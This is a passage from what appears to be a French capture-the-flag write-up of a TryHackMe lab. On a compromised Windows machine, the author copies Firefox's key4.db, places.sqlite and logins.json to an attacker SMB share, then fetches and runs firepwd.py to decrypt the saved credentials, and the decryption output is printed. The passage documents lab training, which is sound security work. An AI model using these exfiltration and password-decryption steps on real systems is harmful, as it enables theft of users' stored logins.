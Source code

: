 Ici on a des fichiers qui nous intéresse qui sont : key4.db, places.sqlite, logins.json. 

```bash
C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release>copy key4.db \\10.9.228.66\\kali
copy key4.db \\10.9.228.66\\kali
        1 file(s) copied.
C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release>copy places.sqlite \\10.9.228.66\\kali
copy places.sqlite \\10.9.228.66\\kali
        1 file(s) copied.
C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release>copy logins.json \\10.9.228.66\kali 
copy logins.json \\10.9.228.66\kali 
        1 file(s) copied.
```

On transfert les 3 fichiers. 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://raw.githubusercontent.com/timruff/firepwd/master/firepwd.py -nv
2021-08-31 13:41:49 URL:https://raw.githubusercontent.com/timruff/firepwd/master/firepwd.py [14856/14856] -> "firepwd.py" [1]


tim@kali:~/Bureau/tryhackme/write-up$ python3 firepwd.py 
globalSalt: b'2d45b7ac4e42209a23235ecf825c018e0382291d'
 SEQUENCE {
   SEQUENCE {
     OBJECTIDENTIFIER 1.2.840.113549.1.5.13 pkcs5 pbes2
     SEQUENCE {
       SEQUENCE {
         OBJECTIDENTIFIER 1.2.840.113549.1.5.12 pkcs5 PBKDF2
         SEQUENCE {
           OCTETSTRING b'9e0554a19d22a773d0c5497efe7a80641fa25e2e73b2ddf3fbbca61d801c116d'
           INTEGER b'01'
           INTEGER b'20'
           SEQUENCE {
             OBJECTIDENTIFIER 1.2.840.113549.2.9 hmacWithSHA256
           }
         }
       }
       SEQUENCE {
         OBJECTIDENTIFIER 2.16.840.1.101.3.4.1.42 aes256-CBC
         OCTETSTRING b'b0da1db2992a21a74e7946f23021'
       }
     }
   }
   OCTETSTRING b'a713739460522b20433f7d0b49bfabdb'
 }
clearText b'70617373776f72642d636865636b0202'
password check? True
 SEQUENCE {
   SEQUENCE {
     OBJECTIDENTIFIER 1.2.840.113549.1.5.13 pkcs5 pbes2
     SEQUENCE {
       SEQUENCE {
         OBJECTIDENTIFIER 1.2.840.113549.1.5.12 pkcs5 PBKDF2
         SEQUENCE {
           OCTETSTRING b'f1f75a319f519506d39986e15fe90ade00280879f00ae1e036422f001afc6267'
           INTEGER b'01'
           INTEGER b'20'
           SEQUENCE {
             OBJECTIDENTIFIER 1.2.840.113549.2.9 hmacWithSHA256
```